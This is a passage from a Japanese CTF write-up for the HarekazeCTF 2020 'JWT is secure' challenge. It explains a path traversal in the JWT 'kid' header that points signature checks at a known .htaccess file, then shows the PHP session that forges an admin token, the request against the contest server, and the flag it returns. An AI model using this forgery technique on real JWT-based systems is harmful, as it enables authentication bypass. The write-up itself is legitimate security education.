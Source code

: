       if (!file_exists($dir)) {
        mkdir($dir, 0777, TRUE);
      }

      file_put_contents($path, $key);
    }
    ```

ところで、サーバには`./keys/.htaccess`が置かれています。いい感じの場所にいい感じの名前のファイルが置かれているので、これを使わない手はなさそうです。

`$kid`が`"/.htaccess"`の場合、`$path`が`./key///.//.htaccess`になり、`.htaccess`自身を指すようになります。これによって、検証に使用する鍵が固定されたので攻撃が成立します。

### 攻撃

実際の攻撃手順は次のとおりです。
JWTの生成に関してはサーバのコードを流用すると楽なので、`include`して使っています。

```shell
$ cd distfiles/public
$ php -a
Interactive mode enabled

php > include("jwt.php");
php > $jwt = new JWT();
php > $jwt->setHeader("kid", "/.htaccess");
php > $jwt->setData("username", "admin");
php > $jwt->setData("role", "admin");
php > echo $jwt->sign("HS256", file_get_contents("./keys/.htaccess"));
eyJ0eXAiOiJKV1QiLCJraWQiOiJcLy5odGFjY2VzcyIsImFsZyI6IkhTMjU2In0.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIn0.qJ0moL-EAWAvVgNBV5Y_wX-e2pNlYJ3n7FF5qJ3RbFM
php >

$ http "http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/jwt-is-secure/?page=admin" Cookie:jwtsession=eyJ0eXAiOiJKV1QiLCJraWQiOiJcLy5odGFjY2VzcyIsImFsZyI6IkhTMjU2In0.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIn0.qJ0moL-EAWAvVgNBV5Y_wX-e2pNlYJ3n7FF5qJ3RbFM
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Length: 375
Content-Type: text/html; charset=UTF-8
Date: Sat, 26 Dec 2020 08:36:35 GMT
Server: nginx/1.15.3
Vary: Accept-Encoding
X-Powered-By: PHP/7.4.13

<!doctype html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Admin - JWT is secure</title>
</head>
<body>
  <h1 class="title">
    Welcome to JWT is secure!
  </h1>
  <ul>
    <li><a href="/jwt-is-secure/?page=home">Home</a></li>
    <li><a href="/jwt-is-secure/?page=logout">Log out</a></li>
    <li><a href="/jwt-is-secure/?page=admin">Admin</a></li>
  </ul>
  <p>
    We have confirmed you are an admin. The flag is: <b>HarekazeCTF{l1st3n_1_just_g1v3_y0u_my_fl4g_4t4sh1_n0_w4v3_w0_t0b4sh1t3_m1ruk4r4}</b>.
  </p>
```